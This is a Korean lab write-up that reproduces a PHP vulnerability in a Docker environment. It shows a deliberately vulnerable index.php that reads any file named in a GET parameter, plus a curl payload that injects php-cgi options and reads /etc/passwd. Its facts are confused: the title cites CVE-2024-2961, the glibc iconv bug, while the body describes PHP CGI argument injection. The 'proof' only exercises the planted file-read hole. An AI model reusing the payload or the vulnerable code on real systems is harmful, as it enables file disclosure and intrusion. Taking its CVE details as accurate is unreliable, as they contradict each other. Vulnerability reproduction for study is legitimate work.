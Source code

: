 # PHP File Read to Remote Code Execution Through GNU C Library Iconv (CVE-2024-2961)

# 요약

---

# 1. 취약점 소개

- **CVE 번호:** CVE-2024-2961
- **취약점 이름:** PHP CGI Argument Injection
- **발견 시기:** 2024년 3월
- **영향 받는 버전:** PHP 5 ~ PHP 8.3.5 (특히 PHP 8.3.3, PHP 8.3.4)
- **공식 패치 버전:** PHP 8.3.6, PHP 8.2.18, PHP 8.1.28

---

### 1.1 취약점 상세 설명

PHP가 **CGI 모드**로 동작할 때, HTTP 요청에 특정 방식으로 파라미터를 삽입하면
**php-cgi 프로세스에 명령줄 옵션(arguments)** 을 주입할 수 있다.

공격자는 이 취약점을 통해:

- PHP 설정(allow_url_include, auto_prepend_file 등)을 강제로 조작하거나,
- 서버에 존재하는 파일을 읽거나,
- 원격에서 임의 코드를 실행(RCE)할 수 있다.

---

### 1.2 취약점 발생 원인

- php-cgi가 GET/POST 요청 파라미터를 처리할 때,
- 명령줄 인자처럼 해석하는 구조적 설계 결함이 존재했다.
- 이로 인해 `d`, `n`, `c` 등의 옵션을 외부에서 주입할 수 있었다.

---

# 2. 환경 구축 및 실행 방법

본 취약점 검증을 위해 Docker 기반의 로컬 환경을 구성하였다.

---

도커 환경에서 PHP 8.3.4 서버를 실행하기 위해 다음 명령어를 사용하였다.

```
docker compose up -d

```

서버가 시작된 후 브라우저에서 다음 URL을 통해 `/etc/passwd` 파일을 읽을 수 있다.

```html
http://your-ip:8080/index.php?file=/etc/passwd.
```

### **index.php**

```php
<?php
echo "File contents: ";
echo file_get_contents($_GET['file']);
?>
```

- 사용자의 GET 파라미터 `file`에 따라 서버 파일을 읽어 출력한다.
- "File contents:" 문구를 추가하여 PoC용 스크립트 통신 포맷에 맞추었다.

# 3. 익스플로잇

Linux 기반 시스템에서 Python 3.10 이상과 필요한 패키지를 설치한다.

---

**사전 준비**

```bash
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
```

그런 다음 POC를 실행한다.

```bash
curl "http://127.0.0.1:8080/index.php?-d+allow_url_include=on+-d+auto_prepend_file=php://input&file=/etc/passwd"
```

요청을 통해 `/etc/passwd` 파일의 내용을 출력하는 데 성공하였다.

![image.png](image.png)

### 대응방안

- PHP를 최신 버전(8.3.6 이상)으로 업데이트
- CGI 모드 사용 지양
- 웹 서버, WAF 설정을 통해 위험한 파라미터 차단

# 정리

---

원본 https://github.com/lemi9090/vulhub/tree/master/php/CVE-2024-2961에선 

shell.php 파일을 생성하여 phpinfo() 함수를 실행하는 과정까지 구현하였다.

하지만 본 과제 환경에서는 **php://filter**, **data:// wrapper** 기능이 제한되어 있어

shell.php 파일 생성 및 추가 실행은 실패하였다.

따라서, index.php를 수정하여 `/etc/passwd` 파일을 직접 읽는 방식으로

PoC를 재구성하고 성공적으로 취약점을 입증하였다.
